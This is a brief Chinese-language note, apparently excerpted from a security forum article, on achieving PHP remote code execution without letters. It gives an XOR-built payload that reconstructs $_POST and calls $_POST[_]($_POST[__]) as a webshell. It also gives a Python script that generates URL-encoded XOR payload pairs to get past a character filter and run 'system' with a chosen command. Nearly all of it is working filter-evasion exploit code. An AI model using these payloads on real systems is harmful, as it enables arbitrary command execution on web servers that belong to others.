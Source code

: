 摘自：https://xz.aliyun.com/t/11929?time__1311=Cq0xuD2Dg0i%3DDsD7zAhxYTqiwOAQD9AEroD#toc-2

无字母rce：

异或：

```
$__=("#"^"|"); // _
$__.=("."^"~"); // _P
$__.=("/"^"`"); // _PO
$__.=("|"^"/"); // _POS
$__.=("{"^"/"); // _POST 
$$__[_]($$__[__]); // $_POST[_]($_POST[__]);
```

```
import re
import requests
import urllib
from sys import *
import os

a=[]
ans1="" 
ans2=""
for i in range(0,256): #设置i的范围
    c=chr(i)
    #将i转换成ascii对应的字符，并赋值给c
    tmp = re.match(r'[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-',c,re.I)
    #设置过滤条件，让变量c在其中找对应，并利用修饰符过滤大小写，这样可以得到未被过滤的字符
    if(tmp):
        continue
        #当执行正确时，那说明这些是被过滤掉的，所以才会被匹配到，此时我们让他继续执行即可
    else:
        a.append(i)
        #在数组中增加i，这些就是未被系统过滤掉的字符

# eval("echo($c);");
mya="system"  #函数名 这里修改！
myb="dir"      #参数
def myfun(k,my): #自定义函数
    global ans1 #引用全局变量ans1，使得在局部对其进行更改时不会报错
    global ans2 #引用全局变量ans2，使得在局部对其进行更改时不会报错
    for i in range (0,len(a)): #设置循环范围为（0，a）注：a为未被过滤的字符数量 
        for j in range(i,len(a)): #在上个循环的条件下设置j的范围
            if(a[i]^a[j]==ord(my[k])):
                ans1+=chr(a[i]) #ans1=ans1+chr(a[i])
                ans2+=chr(a[j]) #ans2=ans2+chr(a[j])
                return;#返回循环语句中，重新寻找第二个k，这里的话就是寻找y对应的两个字符
for x in range(0,len(mya)): #设置k的范围
    myfun(x,mya)#引用自定义的函数
data1="('"+urllib.request.quote(ans1)+"'^'"+urllib.request.quote(ans2)+"')" #data1等于传入的命令,"+ans1+"是固定格式，这样可以得到变量对应的值，再用'包裹，这样是变量的固定格式，另一个也是如此，两个在进行URL编码后进行按位与运算，然后得到对应值
print(data1)
ans1=""#对ans1进行重新赋值
ans2=""#对ans2进行重新赋值
for k in range(0,len(myb)):#设置k的范围为(0,len(myb))
    myfun(k,myb)#再次引用自定义函数
data2="(\""+urllib.request.quote(ans1)+"\"^\""+urllib.request.quote(ans2)+"\")"
print(data2)
```
